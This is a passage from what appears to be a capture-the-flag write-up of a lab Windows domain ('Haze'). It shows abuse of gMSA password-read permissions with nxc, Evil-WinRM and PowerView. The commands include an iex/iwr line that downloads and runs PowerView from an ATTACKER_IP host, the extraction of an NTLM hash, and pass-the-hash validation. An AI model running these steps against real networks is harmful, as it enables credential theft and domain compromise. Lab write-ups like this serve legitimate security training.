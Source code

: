 ```
AceQualifier          : AccessAllowed
PSComputerName        : DC01
RunspaceId            : a5cb6670-5498-4b09-a591-223132e46cf6
```

`nxc` and confirmed that Mark cannot read the password for any gMSAs.
If Mark is added, then that user will be able to retrieve and use the gMSA NTLM hash.
```
fcoomans@kali:~/htb/haze/bloodhound$ nxc ldap dc01.haze.htb -u mark.adams -p Ld@p_Auth_Sp1unk@2k24 --gmsa
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAPS       10.10.11.61     636    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24
LDAPS       10.10.11.61     636    DC01             [*] Getting GMSA Passwords
LDAPS       10.10.11.61     636    DC01             Account: Haze-IT-Backup$      NTLM: <no read permissions>                PrincipalsAllowedToReadPassword: Domain Admins
```

### Exploitation

#### gMSA

`PowerView` was used to get the SIDs for `mark.adams` and `Domain Admins`.
`Set-ADServiceAccount` with  `-PrincipalsAllowedToRetrieveManagedPassword` was then used to add Mark as a principal that can retrieve the gMSA password hashes.
```
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Invoke-Command -ComputerName . -Credential $cred -ScriptBlock { iex (iwr http://ATTACKER_IP:8000/PowerView.ps1 -UseBasicParsing); $sid = Convert-NameToSid "mark.adams"; $daSid = Convert-NameToSid "Domain Admins"; Set-ADServiceAccount -Identity Haze-IT-Backup -PrincipalsAllowedToRetrieveManagedPassword @($sid, $daSid) }
```

The `nxc` command was run again and the NTLM hash for `Haze-IT-Backup$` was revealed.
```
fcoomans@kali:~/htb/haze$ nxc ldap dc01.haze.htb -u mark.adams -p Ld@p_Auth_Sp1unk@2k24 --gmsa
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAPS       10.10.11.61     636    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24
LDAPS       10.10.11.61     636    DC01             [*] Getting GMSA Passwords
LDAPS       10.10.11.61     636    DC01             Account: Haze-IT-Backup$      NTLM: 4de830d1d58c14e241aff55f82ecdba1     PrincipalsAllowedToReadPassword: ['Domain Admins', 'mark.adams']
```

The `Set-ADServiceAccount` cmdlet was then used to reset the value and only allow `Domain Admins` to read the gMSA NTLM hash.
```
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Invoke-Command -ComputerName . -Credential $cred -ScriptBlock { iex (iwr http://ATTACKER_IP:8000/PowerView.ps1 -UseBasicParsing); $daSid = Convert-NameToSid "Domain Admins"; Set-ADServiceAccount -Identity Haze-IT-Backup -PrincipalsAllowedToRetrieveManagedPassword @($daSid) }
```

`nxc` was used to check the hash and it was found to be valid.
```
fcoomans@kali:~/htb/haze$ nxc smb dc01.haze.htb -u 'Haze-IT-Backup$' -H 4de830d1d58c14e241aff55f82ecdba1
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [+] haze.htb\Haze-IT-Backup$:4de830d1d58c14e241aff55f82ecdba1
```

